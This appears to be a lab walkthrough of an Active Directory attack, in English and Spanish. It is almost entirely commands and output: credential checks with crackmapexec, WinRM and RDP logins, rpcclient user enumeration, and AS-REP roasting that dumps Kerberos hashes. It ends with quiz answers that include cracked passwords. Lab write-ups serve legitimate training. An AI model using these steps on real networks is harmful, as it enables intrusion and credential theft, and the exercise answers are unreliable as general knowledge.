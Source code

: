 Installation for Kali 🐲
Copy
apt update
apt install netexec






curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
apt install pipx git
pipx ensurepath
pipx install poetry
poetry self add "poetry-dynamic-versioning[plugin]"
poetry dynamic-versioning enable





 crackmapexec smb 10.201.3.6


  crackmapexec smb 10.201.3.6
SMB         10.201.3.6   445    CONTROLLER-1     [*] Windows 10.0 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
                    

crackmapexec smb 10.201.3.6 --shares


crackmapexec smb 10.201.3.6 --shares



$ crackmapexec smb 10.201.3.6 -u Administrator -p 'P@$$W0rd'
SMB         10.201.3.6   445    CONTROLLER-1     [*] Windows 10.0 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
SMB         10.201.3.6   445    CONTROLLER-1     [+] CONTROLLER.local\Administrator:P@$$W0rd (Pwn3d!)




 crackmapexec winrm  10.201.3.6 -u Administrator -p 'P@$$W0rd'
SMB         10.201.3.6   5985   CONTROLLER-1     [*] Windows 10.0 Build 17763 (name:CONTROLLER-1) (domain:CONTROLLER.local)
HTTP        10.201.3.6   5985   CONTROLLER-1     [*] http://10.201.3.6:5985/wsman
WINRM       10.201.3.6   5985   CONTROLLER-1     [+] CONTROLLER.local\Administrator:P@$$W0rd (Pwn3d!)




xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.3.6 /u:Administrator /p:'P@$$W0rd'



evil-winrm -i 10.201.3.6 -u Administrator -p 'P@$$W0rd' 




pcclient -U ""  10.201.3.6 -N


rpcclient -U 'Administrator%P@$$W0rd'  10.201.3.6     >  user.txt


└─$ cat userK.txt | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sponge userK.txt 


rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Machine2] rid:[0x450]
user:[Admin1] rid:[0x451]
user:[Admin2] rid:[0x452]
user:[User1] rid:[0x453]
user:[User2] rid:[0x454]
user:[SQLService] rid:[0x455]
user:[User3] rid:[0x456]
user:[HTTPService] rid:[0x457]
user:[sshd] rid:[0x458]
rpcclient $> 

pcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
rpcclient $> 



rpcclient $> querygroupmem 0x206
        rid:[0x1f4] attr:[0x7]
        rid:[0x451] attr:[0x7]
        rid:[0x452] attr:[0x7]
        rid:[0x455] attr:[0x7]
rpcclient $> 


rpcclient $> queryuser 0x1f4
        User Name   :   Administrator
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Built-in account for administering the computer/domain
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Tue, 05 Aug 2025 15:27:35 EDT
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Mon, 25 May 2020 15:22:39 EDT
        Password can change Time :      Tue, 26 May 2020 15:22:39 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000008
        padding1[0..7]...
        logon_hrs[0..21]..





## Impacket cuenta con una herramienta llamada "GetNPUsers.py" (ubicada en impacket/examples/GetNPUsers.py) que nos permite consultar cuentas ASReproastables desde el Centro de Distribución de Claves. Lo único necesario para consultar las cuentas es un conjunto válido de nombres de usuario que enumeramos previamente mediante Kerbrute.



python3  GetNPUsers.py -usersfile /home/kali/Downloads/kerberos/userK.txt -no-pass CONTROLLER.local/


Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Machine1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Machine2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Admin1 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$Admin2@CONTROLLER.LOCAL:ccd6aa0e219d14f9ff79dd3a7cb6e4fa$acbc76a88368b945f912f56ed7e77a870faea355ab5a2b98d5bff92d62fd8718723114d0f2d94d070bc2c296111ad47b13cc0cfbd17153e215082af5e2470334933681d07fdd40fde2c6707b7e411dd2b33a9951a54dd48660a06b0f8c1ed0622ea62d9ee38d64de1aa4c25138168f6bf5c907feb9e8d38483b735bf112b027bdffa4365b644fac9c52aac4b8809bba29f5e8ddee6065aef1c489ff54326c7864e610df50d6fbc5d7bc901a004f0be94cdcbc979fb849423e0e218b031d7b318d5216de23e8b96fa678b9e468b1b212dc03956324f9150c516ce09a7ff387ab79d29b8d102c5910777443e3ab3f5aae2b189cd6f
[-] User User1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User User2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SQLService doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$User3@CONTROLLER.LOCAL:de68f7ddf0afdefd1da370343fdba3a8$3081a0231cf3b290de4c2ee1722bef56f84d182a3463311a6441e1cfe1db4d788a3275cb4d752a28de8a977466f10e73681c65cfdeefba7b6baf30a3ebb6a50b384bad6e4d2b917afb89a7d79ad90d9745ca7e9403530738a9160c450fb0132dfee20eefbd242530e2783f204404cc84ef2933b80dc7c0b9773ecd9610d5e1aa1627771a17394c3fc74806052b86c1448f69abf79cfb02dfac3c52d168f53e72b363c7aaf9e70bc8b2b520e5b8184542404c821e784f005a312a58a390f7b4f7f0ac9373c444a01ce185efe4fdb777556127490e54c2f5eff5c70cc819d04cefbf86f36526625cba3a30cfaadb6c628e22ddef1f
[-] User HTTPService doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                                                      
┌──(kali㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ 











What hash type does AS-REP Roasting use?

Ans: Kerberos 5 AS-REP etype 23

Which User is vulnerable to AS-REP Roasting?

Ans: User3

What is the User’s Password?

Ans: Password3

Which Admin is vulnerable to AS-REP Roasting?

Ans: Admin2

What is the Admin’s Password?

Ans: P@$$W0rd2
